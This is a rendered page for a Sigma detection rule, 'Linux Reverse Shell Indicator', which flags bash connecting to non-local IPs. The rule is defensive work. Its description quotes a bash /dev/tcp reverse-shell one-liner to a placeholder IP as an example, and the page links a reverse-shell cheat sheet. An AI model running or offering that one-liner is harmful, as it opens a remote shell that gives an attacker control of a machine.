 ```yaml
---
title: "Linux Reverse Shell Indicator"
aliases:
  - "/rule/83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871"




status: experimental





date: Sat, 16 Oct 2021 14:21:55 +0200


---
```


Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

<!--more-->


## Known false-positives

* Unknown



## References

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Raw rule ([edit](https://github.com/SigmaHQ/sigma/edit/master/rules/linux/network_connection/net_connection_lnx_back_connect_shell_dev.yml))
```yaml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: experimental
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
references:
   - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
date: 2021/10/16
author: Florian Roth
logsource:
   product: linux
   category: network_connection
detection:
   selection:
      Image|endswith: '/bin/bash'
   filter:
      DestinationIp: 
         - '127.0.0.1'
         - '0.0.0.0'
   condition: selection and not filter
falsepositives:
   - Unknown
level: critical


```

